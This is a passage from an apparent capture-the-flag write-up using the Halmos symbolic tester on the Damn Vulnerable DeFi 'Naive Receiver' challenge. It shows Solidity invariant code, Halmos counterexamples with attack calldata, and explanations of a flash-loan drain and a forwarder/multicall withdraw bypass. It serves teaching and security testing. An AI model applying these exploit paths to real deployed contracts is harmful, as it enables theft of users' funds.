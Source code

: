 Before proceeding to the analysis of the counterexample, it is worth saying that a similar result could have been achieved in an easier way. Instead of sacrificing possible scenarios, we could sacrifice the number of symbolic transactions executed (executing only one symbolic transaction), simplifying the invariant even more. We could try to "bite in small pieces" and find these invariant counterexamples independently of each other. So
1. Return **NaiveReceiverPool** to **GlobalStorage**
    ```solidity
    glob.add_addr_name_pair(address(weth), "WETH");
    glob.add_addr_name_pair(address(forwarder), "BasicForwarder");
    glob.add_addr_name_pair(address(pool), "NaiveReceiverPool");
    ```
2. Let's go back to the single symbolic transaction
    ```solidity
    function attack() public {
        execute_tx();
        //execute_tx();
    }
    ```
3. Split invariants
    ```solidity
    function _isSolved() private view {
        assert (weth.balanceOf(address(pool)) >= WETH_IN_POOL);
        assert (weth.balanceOf(address(receiver)) >= WETH_IN_RECEIVER);
    }
    ```
Run:
```javascript
$ halmos --solver-timeout-assertion 0 --function check_naiveReceiver --loop 3
...
Counterexample:
halmos_selector_bytes4_0f6d90c_16 = flashLoan
halmos_target_address_b163b06_01 = 0x00000000000000000000000000000000aaaa0005
p_amount_uint256_0638d47_06 = 0x0000000000000000000000000000000000000000000000000000000000000000
p_data_length_98af919_08 = 0x0000000000000000000000000000000000000000000000000000000000000000
p_receiver_address_61d6d2d_04 = 0x00000000000000000000000000000000000000000000000000000000aaaa0006
p_token_address_383970d_05 = 0x00000000000000000000000000000000000000000000000000000000aaaa0003
...
Counterexample:
halmos_multicall_newdata_bytes_4d9e59c_44 = 0x00f714ce00000000000000000000000000000000000000000000003635c9adc5dea00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000cafe0000
halmos_selector_bytes4_2d91fe2_43 = withdraw
halmos_selector_bytes4_ee6acf1_14 = execute
halmos_target_address_b163b06_01 = 0x00000000000000000000000000000000aaaa0004
p_data_length_b44e459_22 = 0x0000000000000000000000000000000000000000000000000000000000000002
p_request.from_address_54c3352_04 = 0x00000000000000000000000000000000000000000000000000000000cafe0001
p_request.target_address_a92dbac_05 = 0x00000000000000000000000000000000000000000000000000000000aaaa0005
p_signature_length_8d509fd_13 = 0x0000000000000000000000000000000000000000000000000000000000000400
```
## Counterexamples analysis
Note that 2 bugs were found here at once.
The mechanics of the first bug are quite simple - we launch **flashLoan**, as the receiver we specify the **FlashLoanReceiver** contract, which we do not own, thereby emptying it by 1 **WETH** per transaction. Precisely because it takes 10 such transactions to empty this balance to 0 - Halmos failed with a clearer invariant.
The mechanics of the second bug are very interesting. The fact is that for this we need to fulfill 2 conditions: run **withdraw** with **Forwarder** as a **msg.sender**, but at the same time bypass the concatenation of our address at the end of the **payload**:
```solidity
bytes memory payload = abi.encodePacked(newdata, request.from);
...
```